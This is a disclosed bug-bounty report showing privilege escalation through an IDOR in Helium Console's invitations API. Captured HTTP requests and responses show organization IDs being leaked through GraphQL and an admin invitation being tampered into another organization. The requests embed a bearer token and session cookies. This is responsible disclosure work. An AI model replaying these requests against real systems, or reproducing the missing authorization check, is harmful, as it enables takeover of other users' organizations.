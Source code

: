 # Organization Takeover via invitation API

## Report Details
- **Report ID**: 835005
- **URL**: https://hackerone.com/reports/835005
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-03-31T02:05:09.252Z
- **Disclosed**: 2020-05-27T20:51:32.273Z

## Reporter
- **Username**: azraelsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: helium

## Vulnerability Information
Hello @helium,
today I would like to show you how a malicious user could exploit an IDOR affecting the `/invitations` resource to gain Administrator privileges inside an organization of which he's part of as a reader.

# Steps to reproduce the bug
## Setup
Let's assume that three accounts exist:
- `azraelsec@wearehackerone.com` **[Attacker]**
- `azraelsec+test@wearehackerone.com` **[Victim]**
- `azraelsec+1@wearehackerone.com` **[Attacker's fake account]**

**Initial Context**: **[Victim]** is Administrator of the `target` organization on Helium Console and invites **[Attacker]** to join it as a reader.
**Goal**: **[Attacker]** escalate its privileges and becomes Administrator of the `target` organization

## Attack
1) **[Attacker]** makes a graphql query to leak the organization's id (using graphql it's only possible to see the memberships of the current organization):
```
POST /graphql HTTP/1.1
Host: console.helium.com
Connection: close
Content-Length: 469
accept: */*
Sec-Fetch-Dest: empty
authorization: Bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJjb25zb2xlIiwiZXhwIjoxNTg1NzAyODgzLCJpYXQiOjE1ODU2MTY0ODMsImlzcyI6ImNvbnNvbGUiLCJqdGkiOiIwNjUwMGRiOS1kNjNlLTRiYTQtYWJiYy0xYmQ0YTViMzUxY2YiLCJuYmYiOjE1ODU2MTY0ODIsIm9yZ2FuaXphdGlvbiI6Ijg4M2IwYTQ2LWU0Y2YtNDMxNS1hZjRmLTQyMjZkMWFkYTU2MSIsIm9yZ2FuaXphdGlvbl9uYW1lIjoibG9sIiwic3ViIjoiOGY1YWJlMTktMDAwMS00MWI1LWE5NjktZmUwYjcxZGNjZjFmIiwidHlwIjoiYWNjZXNzIiwidXNlciI6IjhmNWFiZTE5LTAwMDEtNDFiNS1hOTY5LWZlMGI3MWRjY2YxZiJ9.VMAi-07cZkCJg-dffHdR1wwJbi9JNSzpaQSRSQGDX-_vDrcTOPEfgJU_LCZ8H5tYiwsexyD-ogLFakGY1bFy-A
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
content-type: application/json
Origin: https://console.helium.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: https://console.helium.com/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6
Cookie: _ga=GA1.2.356414044.1583245182; ajs_anonymous_id=%22b4ba3101-c694-4846-baa8-7c8327764369%22; ajs_group_id=null; ajs_user_id=1; intercom-id-ghj6l8hv=253a4abc-6b70-4491-9b80-b8b69c070546; __cfduid=dfe09d09943b9f82399b493143e78867f1585613806; _console_key=SFMyNTY.g3QAAAAA.vg9m7JVv2pR0cST_2fykHvzkeAyEyq8PdhkZ0fBMMiM; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6IjI4OGY3ZTJiLTRjNTgtNDEyOC1hNWUwLTliYjY0OTRkMzU2N1IiLCJ1c2VySWQiOiI4ZjVhYmUxOS0wMDAxLTQxYjUtYTk2OS1mZTBiNzFkY2NmMWYiLCJvcHRPdXQiOmZhbHNlLCJzZXNzaW9uSWQiOjE1ODU2MTM4MDkxNzMsImxhc3RFdmVudFRpbWUiOjE1ODU2MTY4NjQwNDMsImV2ZW50SWQiOjU2MywiaWRlbnRpZnlJZCI6MTEwLCJzZXF1ZW5jZU51bWJlciI6NjczfQ==

{"operationName":"PaginatedOrganizationsQuery","variables":{"page":1,"pageSize":10},"query":"query PaginatedOrganizationsQuery($page: Int, $pageSize: Int) {\n  organizations(page: $page, pageSize: $pageSize) {\n    entries {\n      ...OrganizationFragment\n      __typename\n    }\n    totalEntries\n    totalPages\n    pageSize\n    pageNumber\n    __typename\n  }\n}\n\nfragment OrganizationFragment on Organization {\n  id\n  name\n  inserted_at\n  __typename\n}\n"}
```
```
HTTP/1.1 200 OK
Date: Tue, 31 Mar 2020 01:07:44 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Cache-Control: max-age=0, private, must-revalidate
Strict-Transport-Security: max-age=31536000
Via: 1.1 vegur
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 57c62cdb39b0be28-MXP
Content-Length: 401

{"data":{"organizations":{"__typename":"PaginatedOrganizations","entries":[{"__typename":"Organization","id":"883b0a46-e4cf-4315-af4f-4226d1ada561","inserted_at":"2020-03-31T00:58:34","name":"lol"},{"__typename":"Organization","id":"cb23000e-65b3-4628-9ede-656ffa0d5aa8","inserted_at":"2020-03-31T01:05:42","name":"target"}],"pageNumber":null,"pageSize":null,"totalEntries":null,"totalPages":null}}}
```
**NOTE**: the `target` organization's id is `cb23000e-65b3-4628-9ede-656ffa0d5aa8`

2) Using its own organization's page **[Attacker]** makes a request to the `/api/invitations` end-point in order to add **[Attacker's fake account]** to it in the role of *admin* and intercepts this request through Burp Suite. It looks like this:
```
POST /api/invitations HTTP/1.1
Host: console.helium.com
Connection: close
Content-Length: 125
Accept: application/json, text/plain, */*
Sec-Fetch-Dest: empty
Authorization: Bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJjb25zb2xlIiwiZXhwIjoxNTg1NzAyODgzLCJpYXQiOjE1ODU2MTY0ODMsImlzcyI6ImNvbnNvbGUiLCJqdGkiOiIwNjUwMGRiOS1kNjNlLTRiYTQtYWJiYy0xYmQ0YTViMzUxY2YiLCJuYmYiOjE1ODU2MTY0ODIsIm9yZ2FuaXphdGlvbiI6Ijg4M2IwYTQ2LWU0Y2YtNDMxNS1hZjRmLTQyMjZkMWFkYTU2MSIsIm9yZ2FuaXphdGlvbl9uYW1lIjoibG9sIiwic3ViIjoiOGY1YWJlMTktMDAwMS00MWI1LWE5NjktZmUwYjcxZGNjZjFmIiwidHlwIjoiYWNjZXNzIiwidXNlciI6IjhmNWFiZTE5LTAwMDEtNDFiNS1hOTY5LWZlMGI3MWRjY2YxZiJ9.VMAi-07cZkCJg-dffHdR1wwJbi9JNSzpaQSRSQGDX-_vDrcTOPEfgJU_LCZ8H5tYiwsexyD-ogLFakGY1bFy-A
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
Content-Type: application/json
Origin: https://console.helium.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: https://console.helium.com/users
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6
Cookie: _ga=GA1.2.356414044.1583245182; ajs_anonymous_id=%22b4ba3101-c694-4846-baa8-7c8327764369%22; ajs_group_id=null; ajs_user_id=1; intercom-id-ghj6l8hv=253a4abc-6b70-4491-9b80-b8b69c070546; __cfduid=dfe09d09943b9f82399b493143e78867f1585613806; _console_key=SFMyNTY.g3QAAAAA.vg9m7JVv2pR0cST_2fykHvzkeAyEyq8PdhkZ0fBMMiM; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6IjI4OGY3ZTJiLTRjNTgtNDEyOC1hNWUwLTliYjY0OTRkMzU2N1IiLCJ1c2VySWQiOiI4ZjVhYmUxOS0wMDAxLTQxYjUtYTk2OS1mZTBiNzFkY2NmMWYiLCJvcHRPdXQiOmZhbHNlLCJzZXNzaW9uSWQiOjE1ODU2MTM4MDkxNzMsImxhc3RFdmVudFRpbWUiOjE1ODU2MTY4OTQ2OTYsImV2ZW50SWQiOjU2NiwiaWRlbnRpZnlJZCI6MTEwLCJzZXF1ZW5jZU51bWJlciI6Njc2fQ==

{"invitation":{"email":"azraelsec+1@wearehackerone.com","role":"admin","organization":"883b0a46-e4cf-4315-af4f-4226d1ada561"}}
```
3) **[Attacker]** now only needs to change the organization field's value inserting the `target` one:
```
POST /api/invitations HTTP/1.1
Host: console.helium.com
Connection: close
Content-Length: 126
Accept: application/json, text/plain, */*
Sec-Fetch-Dest: empty
Authorization: Bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJjb25zb2xlIiwiZXhwIjoxNTg1NzAyODgzLCJpYXQiOjE1ODU2MTY0ODMsImlzcyI6ImNvbnNvbGUiLCJqdGkiOiIwNjUwMGRiOS1kNjNlLTRiYTQtYWJiYy0xYmQ0YTViMzUxY2YiLCJuYmYiOjE1ODU2MTY0ODIsIm9yZ2FuaXphdGlvbiI6Ijg4M2IwYTQ2LWU0Y2YtNDMxNS1hZjRmLTQyMjZkMWFkYTU2MSIsIm9yZ2FuaXphdGlvbl9uYW1lIjoibG9sIiwic3ViIjoiOGY1YWJlMTktMDAwMS00MWI1LWE5NjktZmUwYjcxZGNjZjFmIiwidHlwIjoiYWNjZXNzIiwidXNlciI6IjhmNWFiZTE5LTAwMDEtNDFiNS1hOTY5LWZlMGI3MWRjY2YxZiJ9.VMAi-07cZkCJg-dffHdR1wwJbi9JNSzpaQSRSQGDX-_vDrcTOPEfgJU_LCZ8H5tYiwsexyD-ogLFakGY1bFy-A
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
Content-Type: application/json
Origin: https://console.helium.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: https://console.helium.com/users
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6
Cookie: _ga=GA1.2.356414044.1583245182; ajs_anonymous_id=%22b4ba3101-c694-4846-baa8-7c8327764369%22; ajs_group_id=null; ajs_user_id=1; intercom-id-ghj6l8hv=253a4abc-6b70-4491-9b80-b8b69c070546; __cfduid=dfe09d09943b9f82399b493143e78867f1585613806; _console_key=SFMyNTY.g3QAAAAA.vg9m7JVv2pR0cST_2fykHvzkeAyEyq8PdhkZ0fBMMiM; amplitude_id_2b23c37c10c54590bf3f2ba705df0be6helium.com=eyJkZXZpY2VJZCI6IjI4OGY3ZTJiLTRjNTgtNDEyOC1hNWUwLTliYjY0OTRkMzU2N1IiLCJ1c2VySWQiOiI4ZjVhYmUxOS0wMDAxLTQxYjUtYTk2OS1mZTBiNzFkY2NmMWYiLCJvcHRPdXQiOmZhbHNlLCJzZXNzaW9uSWQiOjE1ODU2MTM4MDkxNzMsImxhc3RFdmVudFRpbWUiOjE1ODU2MTY4OTQ2OTYsImV2ZW50SWQiOjU2NiwiaWRlbnRpZnlJZCI6MTEwLCJzZXF1ZW5jZU51bWJlciI6Njc2fQ==

{"invitation":{"email":"azraelsec+1@wearehackerone.com","role":"admin","organization":"cb23000e-65b3-4628-9ede-656ffa0d5aa8"}}
```
```
HTTP/1.1 201 Created
Date: Tue, 31 Mar 2020 01:08:59 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 115
Connection: close
Cache-Control: max-age=0, private, must-revalidate
Message: User added to organization
Strict-Transport-Security: max-age=31536000
Via: 1.1 vegur
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 57c62eaa4ccde903-MXP

{"id":"a0262e0c-7939-42dd-a4ec-e42dc2eeaeab","joined_at":"2020-03-31T01:08:59","role":"admin","type":"memberships"}
```
4) Now **[Attacker's fake account]** has got full privileges on the `target` organization and can properly change **[Attacker]**'s role to Administrator and he can delete the original owner.

# Mitigations
To be sure that the requesting user is an Administrator of that organization is enough to solve this issue.

## Impact

This vulnerability has got a great impact on the platform as it allows any user to gain Administrator privileges on organizations he's part of, full controlling it.

## Attachments
- Organization_Takeover_via_Invitations.mp4
